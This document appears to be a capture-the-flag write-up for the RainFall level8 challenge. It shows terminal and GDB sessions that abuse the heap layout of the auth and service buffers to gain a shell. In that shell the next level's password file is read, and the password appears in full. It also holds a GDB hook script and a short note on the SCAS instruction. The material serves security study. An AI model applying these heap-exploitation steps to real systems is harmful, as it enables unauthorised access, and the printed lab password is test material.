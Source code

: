 
```
level8@RainFall:~$ objdump -t level8 | grep bss
08049aac   auth
08049ab0   service
```
```
level8@RainFall:~$ ./level8
(nil), (nil)
auth
(nil), (nil)
service
(nil), 0x804a008
reset
(nil), 0x804a008
login
Segmentation fault (core dumped)
```

```
auth AAAAAA
0x804a008, (nil)
service 1111
0x804a008, 0x804a018
service 1111
0x804a008, 0x804a028
login
$ pwd
/home/user/level8
```

```
level8@RainFall:~$ ./level8
(nil), (nil)
auth aaa
0x804a008, (nil)
service jjjjjjjjjjjjjjjjjjjjjjjjjjjj
0x804a008, 0x804a018
login
$ pwd
/home/user/level8
$ cat /home/user/level9/.pass
c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a
```

```
set hei 0
set pag off
define hook-stop
x/20wx 0x0804a000
echo ------------[service] -----------------\n
x/s service
x service
echo ------------[auth] --------------------\n
x/s auth
x auth
echo ------------[auth+32] -----------------\n
x/s auth+0x20
echo ---------------------------------------\n
continue
end
```

```
(gdb) c
Continuing.
(nil), (nil)
auth AAAA
0x804a008, (nil)
serviceBBBBBBBBBBBBBBBB
0x804a008, 0x804a018
^C
Program received signal SIGINT, Interrupt.
0x804a000:      0x00000000      0x00000011      0x41414141      0x0000000a
0x804a010:      0x00000000      0x00000019      0x42424242      0x42424242
0x804a020:      0x42424242      0x42424242      0x0000000a      0x00020fd9
0x804a030:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a040:      0x00000000      0x00000000      0x00000000      0x00000000
------------[service] -----------------
0x804a018:       'B' <repeats 16 times>, "\n"
0x804a018:       'B' <repeats 16 times>, "\n"
------------[auth] --------------------
0x804a008:       "AAAA\n"
0x804a008:       "AAAA\n"
------------[auth+32] -----------------
0x804a028:       "\n"
---------------------------------------
login
$ pwd
/home/user/level8
```

The SCAS instruction is used to scan a string (SCAS = SCan A String).
It compares the content of the accumulator (AL, AX, or EAX) against the current value pointed at by ES:[EDI].

When used together with the REPNE prefix (REPeat while Not Equal), 
SCAS scans the string searching for the first string element which is equal to the value in the accumulator. 


**Assembly commentary**
`check source section`

 Use-After-Free (UAF)  Vulnerabilities https://youtu.be/ZHghwsTRyzQ?list=PLhixgUqwRTjxglIswKp9mpkfPNfHkzyeN
